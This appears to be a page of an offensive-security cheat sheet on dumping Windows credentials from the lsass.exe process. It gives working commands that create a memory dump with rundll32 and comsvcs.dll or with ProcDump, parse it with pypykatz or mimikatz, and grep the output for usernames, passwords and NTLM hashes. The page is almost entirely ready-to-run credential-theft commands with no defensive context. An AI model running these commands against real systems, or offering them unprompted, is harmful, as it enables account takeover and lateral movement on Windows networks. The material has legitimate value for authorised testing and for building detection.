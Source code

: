 



# Dump Credentials




## lsass.exe



### comsvcs.dll

* [www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll)

```
PS C:\Windows\System32 > Get-Process lsass
PS C:\Windows\System32 > .\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 940 C:\temp\lsass.dmp full
```



### ProcDump

* [docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
* [download.sysinternals.com/files/Procdump.zip](https://download.sysinternals.com/files/Procdump.zip)

Dump and parse:

```
PS > .\procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
$ pypykatz lsa minidump lsass.dmp > lsass-pypykatz.minidump
Or
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```

Grep for secrets:

```
(mimikatz)
$ grep '* Username : ' lsass-mimikatz.minidump -A2 | grep -e Username -e Password -e NTLM | grep -v null | xclip -i -sel c
(pypykatz)
$ grep -P '\tusername ' lsass-pypykatz.minidump -A2 | grep -e username -e password | grep -v None | xclip -i -sel c
$ grep -P 'Username: ' lsass-pypykatz.minidump -A4 | grep -e Username -e Domain -e NT | grep -v None | xclip -i -sel c
```


